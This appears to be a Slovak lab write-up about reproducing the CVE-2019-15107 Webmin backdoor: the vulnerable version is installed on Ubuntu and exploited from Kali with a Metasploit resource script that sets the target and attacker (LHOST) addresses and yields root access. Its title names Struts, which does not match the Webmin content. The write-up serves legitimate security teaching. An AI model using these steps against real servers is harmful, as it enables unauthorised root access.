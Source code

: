 # Otestovanie zraniteľnosti Struts na Ubuntu 19.04

Webový ovládací panel Webmin slúži na správu systému Unix. Eliminuje potrebu ručne upravovať konfiguračné súbory
systému Unix, ako napríklad /etc/passwd, a umožňuje spravovanie systému z konzoly alebo vzdialene. Preto sa 
používa vo väčšine organizácií, kde sa používajú unixové servery. Útok CVE-2019-15107 fungoval ako *backdoor*, 
čiže bol zámerne umiestnený v roku 2018 a nájdený počas bezpečnostnej konferencie DEF CON 2019, keď výskumníci 
narazili na škodlivý kód.

Každý, kto vedel o existencii zraniteľnosti, mohol využiť *backdoor*, čím mal možnosť vykonávať príkazy 
s privilégiami *root*. Podľa Jamieho Camerona, autora webového ovládacieho panela Webmin, bol 
*backdoor* vložený do verzie 1.890. Následne boli nájdené ďalšie dve verzie s takmer identickým 
kódom, konkrétne verzie 1.900 a 1.920. Do skriptu `password\_change.cgi` bola pridaná zraniteľnosť. 

## Konfigurácia Ubuntu

Pre vytvorenie zraniteľného systému sme stiahli verziu
[ovládacieho panelu Webmin 1.890](https://sourceforge.net/projects/webadmin/files/webmin/1.890/) a nainštalovali ju.

## Konfigurácia Kali Linux 

Pre zaútočenie sme vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie Kali. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.40`. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.41` a spustiť útok. 

Keďže sme využili *backdoor* a ovládací panel Webmin bežal pod privilégiami *root*, dostali sme sa do systému s privilégiami *root*. 
